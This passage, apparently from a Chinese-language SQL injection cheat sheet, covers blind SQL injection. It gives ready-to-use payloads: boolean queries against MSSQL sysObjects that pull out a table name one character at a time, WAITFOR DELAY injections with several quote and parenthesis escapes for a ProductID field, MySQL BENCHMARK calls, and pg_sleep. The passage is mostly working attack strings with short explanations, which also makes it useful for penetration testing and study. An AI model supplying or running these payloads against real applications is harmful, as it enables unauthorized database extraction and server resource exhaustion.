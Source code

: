 **FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>83-- 

**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)<83-- 

**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>80-- 

**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)<80-- 

以上的测试过程就是正常情况下的盲注测试过程

##### 基于时间的盲注

由于 SQL 语句在执行成功和失败的时候，所用的时间不同，本来时间是很短的，人是无法察觉的，所以可以设置执行成功之后增加等待时间，从而判断执行是否成功。

**设置等待时间 (S)**

> WAITFOR DELAY '0:0:10'--

也可以设置的短一些

> WAITFOR DELAY '0:0:0.51'

**真实的例子：**

- 当前用户是否是 'sa' ? `if (select user) = 'sa' waitfor delay '0:0:10'`
- ProductID = `1;waitfor delay '0:0:10'--`
- ProductID =`1);waitfor delay '0:0:10'--`
- ProductID =`1';waitfor delay '0:0:10'--`
- ProductID =`1');waitfor delay '0:0:10'--`
- ProductID =`1));waitfor delay '0:0:10'--`
- ProductID =`1'));waitfor delay '0:0:10'--`

##### BENCHMARK() (M)

滥用这个命令会让 mysql 停一下，会大量消耗 web 服务器资源

> BENCHMARK(howmanytimes, do this)

**真实的例子：**

- 判断当前用户是否是 root `IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`
- 检查 MySQL 中的表 login 是否存在 `IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`

##### pg_sleep(seconds) (P)

睡眠几秒

- `SELECT pg_sleep(10);` 睡眠 10 秒

#### 测试注入的小技巧
